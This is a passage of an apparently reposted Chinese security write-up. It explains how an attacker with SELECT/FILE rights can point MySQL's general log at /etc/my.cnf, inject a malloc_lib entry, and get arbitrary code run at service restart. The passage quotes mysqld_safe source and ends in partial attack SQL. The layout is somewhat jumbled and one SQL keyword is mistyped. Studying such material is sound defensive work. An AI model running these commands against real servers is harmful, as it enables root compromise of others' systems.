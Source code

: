 ```
[...]
----------[ eof ]---------------
```



通过手册我们可以得知–malloc-lib=LIB 选项可以加载一个so文件，如果攻击者可以注入路径信息到配置文件，就可以在MYSQL服务重启的时候，执行任意代码。

从2003开始，默认通过SELECT * INFO OUTFILE '/var/lib/mysql/my.cnf'是不能覆写文件的，但是我们可以利用mysql logging（MySQL ）功能绕过outfile/dumpfile重写文件的保护，攻击者需要 SELECT/FILE 权限 。

依赖于mysql的版本，相应的配置文件也不同



比如mysql5.5



```
/etc/my.cnf        Global options
/etc/mysql/my.cnfGlobal options
SYSCONFDIR/my.cnfGlobal options
$MYSQL_HOME/my.cnfServer-specific options
defaults-extra-fileThe file specified with --defaults-extra-file=file_name, if any
~/.my.cnfUser-specific options
```





我们通过覆写/etc/my.cnf注入malloc_lib=路径选项，命令如下：



```
----[ /usr/bin/mysqld_safe ]----
[...]
# set_malloc_lib LIB
# - If LIB is empty, do nothing and return
# - If LIB is 'tcmalloc', look for tcmalloc shared library in /usr/lib
#   then pkglibdir.  tcmalloc is part of the Google perftools project.
# - If LIB is an absolute path, assume it is a malloc shared library
#
# Put LIB in mysqld_ld_preload, which will be added to LD_PRELOAD when
# running mysqld.  See ld.so for details.
set_malloc_lib() `{`
  malloc_lib="$1"
  if [ "$malloc_lib" = tcmalloc ]; then
    pkglibdir=`get_mysql_config --variable=pkglibdir`
    malloc_lib=
    # This list is kept intentionally simple.  Simply set --malloc-lib
    # to a full path if another location is desired.
    for libdir in /usr/lib "$pkglibdir" "$pkglibdir/mysql"; do
      for flavor in _minimal '' _and_profiler _debug; do
        tmp="$libdir/libtcmalloc$flavor.so"
        #log_notice "DEBUG: Checking for malloc lib '$tmp'"
        [ -r "$tmp" ] || continue
        malloc_lib="$tmp"
        break 2
      done
    done
[...]
----------[ eof ]---------------
mysql&gt; set global general_log_file = '/etc/my.cnf';
mysql&gt; set global general_log = on;
mysql&gt; select '
    '&gt; 
    '&gt; ; injected config entry
    '&gt; 
    '&gt; [mysqld]
```